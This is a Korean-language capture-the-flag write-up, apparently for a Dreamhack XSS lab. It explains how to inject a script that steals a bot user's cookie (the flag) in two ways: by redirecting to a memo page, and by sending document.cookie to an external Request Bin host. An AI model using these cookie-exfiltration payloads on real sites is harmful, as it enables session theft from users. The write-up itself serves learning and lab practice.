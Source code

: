 <br/><br/>

### 익스플로잇
* 공격에 사용할 수 있는 속성
	| 속성 | 설명 |
  |-------|-----------------|
	| location.href | 전체 URL를 반환하거나, URL을 업데이트할 수 있는 속성 |
	| document.cookie | 해당 페이지에서 사용하는 쿠키를 읽고, 쓰는 속성 |

<br/>

#### 방법 1: memo 페이지 이용
1. flag 엔드포인트에서 ```<script>location.href=“/memo?memo=“ + document.cookie;</script>```를 입력하고 [제출] 버튼을 클릭함
	<img width="948" alt="memo 페이지_1" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/d3b885a7-1f76-49dd-a0d9-6b930cb4fc08">

2. “good” 알림창이 출력되면 memo 페이지로 이동하여 화면에 출력된 임의 이용자의 쿠키 정보(FLAG)를 획득할 수 있음
	<img width="948" alt="memo 페이지_2" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/0cff32b4-ef33-4480-bdd9-12f64f8c4d70">

<br/>

#### 방법 2: 외부 웹 서버 이용
1. 외부에서 접근 가능한 웹 서버를 준비함
	- Dreamhack 페이지에서 제공하는 [드림핵툴즈 서비스](https://tools.dreamhack.games/)의 Request Bin 기능을 이용함
		+ Request Bin 항목에서 랜덤한 URL이 생성되는 것을 확인하고 이를 복사해둠
	<img width="1589" alt="외부 웹 서버_1" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/32800958-8d73-462c-ab25-54038cb61e44">
	
2. flag 엔드포인트에서 ```<script>location.href=“http://RANDOMHOST.request.dreamhack.games/?memo="+document.cookie;</script>```를 입력하고 [제출] 버튼을 클릭함
	<img width="948" alt="외부 웹 서버_2" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/1d67f5c4-dad1-49c6-ad22-ee4c11de9d7f">
	
3. “good” 알림창이 출력되면 웹 서버의 접속 기록을 확인하여 QueryString 부분에서 임의 이용자의 쿠키 정보(FLAG)를 획득할 수 있음
	<img width="1589" alt="외부 웹 서버_3" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/9a056ba5-dfdc-4c36-9b11-46f7388a9ecb">
